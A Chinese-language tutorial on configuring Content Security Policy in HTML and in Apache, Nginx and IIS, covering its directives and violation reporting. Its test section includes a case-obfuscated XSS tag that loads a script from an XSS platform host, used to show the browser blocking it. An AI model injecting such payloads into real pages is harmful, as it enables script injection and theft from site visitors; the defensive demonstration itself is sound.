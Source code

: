 # 关于CSP
> 内容安全策略   (CSP) 是一个额外的安全层，用于检测并削弱某些特定类型的攻击，包括跨站脚本 (XSS) 和数据注入攻击等。无论是数据盗取、网站内容污染还是散发恶意软件，这些攻击都是主要的手段。(摘自MDN web docs)

个人理解就是一种执行在浏览器端的页面安全策略，通过设置白名单允许页面内容来自指定的源，比如验证js脚本的来源来消除来自其他源的js脚本加载，这样就能防止xss远程加载js脚本。

# 相关配置
两种
## 直接在html页面中添加
示例：
```
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">
```
## 配置服务器，使其在响应头添加
- Apache
在VirtualHost的httpd.conf文件或者.htaccess文件中加入以下代码
```
Header set Content-Security-Policy "default-src 'self';"
```
- Nginx
在 server {}对象块中添加如下代码
```
add_header Content-Security-Policy "default-src 'self';";
```
- IIS 
web.config:中添加
```
<system.webServer>

  <httpProtocol>

    <customHeaders>

      <add name="Content-Security-Policy" value="default-src 'self';" />

    </customHeaders>

  </httpProtocol>

</system.webServer>
```
这样response 头里面就会有Content-Security-Policy: 标签
```
Content-Security-Policy: script-src 'self'; object-src 'none';style-src cdn.example.org third-party.org; child-src https:
```

# 关于csp的语法（简单介绍）

## 默认限制
> 什么都不会就直接上一个默认限制就行了,例如`Content-Security-Policy: default-src 'self'`限制资源只能从本地加载，不管是js，还是图片，都只能从本地加载

## 详细的资源加载限制(摘自[知乎:阿里聚安全](https://www.zhihu.com/question/21979782/answer/122682029))
> 可以对每种资源进行详细的加载限制
- `script-src` 外部脚本加载限制
- `style-src` 样式表
- `img-src` 图像
- `media-src` 音频视频的加载
- `font-src` 字体文件
- `object-src`插件（比如 Flash）
- `child-src`框架
- `frame-ancestors`嵌入的外部资源（比如\<frame\>、\<iframe\>、\<embed\>和\<applet\>）
- `connect-src`HTTP 连接（通过 XHR、WebSockets、EventSource等）
- `worker-src` worker脚本
- `manifest-src` manifest 文件
> url相关
- `frame-ancestors` 限制嵌入框架的网页
- `base-uri` 限制 `<base#href>`
- `form-action` 限制 `<form#action>`
> 其他其他安全相关
- `block-all-mixed-content`：HTTPS 网页不得加载 HTTP 资源（浏览器已经默认开启）
- `upgrade-insecure-requests`：自动将网页上所有加载外部资源的 HTTP 链接换成 HTTPS 协议 相关类似的还有[HTTP Strict Transport Security](https://developer.mozilla.org/zh-CN/docs/Security/HTTP_Strict_Transport_Securityv)
- `plugin-types`：限制可以使用的插件格式
- `sandbox`：浏览器行为的限制，比如不能有弹出窗口等。

## 将违例内容进行反馈报告
> 需要在CSP规则中写明report-uri策略，然后参数中有一个地址接收这些报告，报告格式是json
大概写法事这个样子拿apache配置为例
```
Header set Content-Security-Policy "default-src 'self';report-uri http://12.12.12.12:7777"
```
返回的json大概如下：
```
{
    "csp-report":{
        "document-uri":"http://hhhhh.com/",
        "referrer":"",
        "violated-directive":"script-src-elem",
        "effective-directive":"script-src-elem",
        "original-policy":"default-src 'self';report-uri http://12.12.12.12:7777",
        "disposition":"enforce",
        "blocked-uri":"https://xss.pt/XUXds",
        "status-code":200,
        "script-sample":""
    }
}
```

# 测试
- 配置虚拟主机
```
<VirtualHost 12.12.12.12:80>
  DocumentRoot "/var/www/ipv4"
  ServerName    hhhhh.com
</VirtualHost>
Header set Content-Security-Policy "default-src 'self';"
```
重启apache服务，查看响应头是否含有Content-Security-Policy： default-src 'self';
- 到页面中加载远程脚本
<sCRiPt sRC=https://xss.pt/XUXdj></sCrIpT>
- 然后这时浏览器就会报错
 比如chrome：
```
Refused to load the script 'https://xss.pt/XUXdj' because it violates the following Content Security Policy http://hhhhhh.com directive: "default-src 'self'". Note that 'script-src-elem' was not explicitly set, so 'default-src' is used as a fallback.
```

相关文档：
- [MDN web docs 内容安全策略( CSP )](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP)
